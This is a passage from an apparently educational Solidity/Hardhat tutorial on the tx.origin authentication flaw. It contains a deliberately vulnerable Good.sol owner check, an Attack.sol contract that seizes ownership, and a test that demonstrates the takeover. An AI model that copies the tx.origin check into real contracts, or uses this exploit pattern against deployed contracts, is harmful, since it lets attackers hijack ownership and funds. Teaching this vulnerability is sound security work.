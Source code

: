     function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner" );
        owner = newOwner;
    }
}
Now, create a contract named Attack.sol within the contracts directory and write the following lines of code

//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good public good;
    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
Now lets try immitating the attack using a sample test, create a new file under test folder named attack.js and add the following lines of code to it

const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.connect(addr1).deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    let tx = await _attackContract.connect(addr1).attack();
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
The attack will happen as follows, initially addr1 will deploy Good.sol and will be the owner but the attacker will somehow fool the user who has the private key of addr1 to call the attack function with Attack.sol.
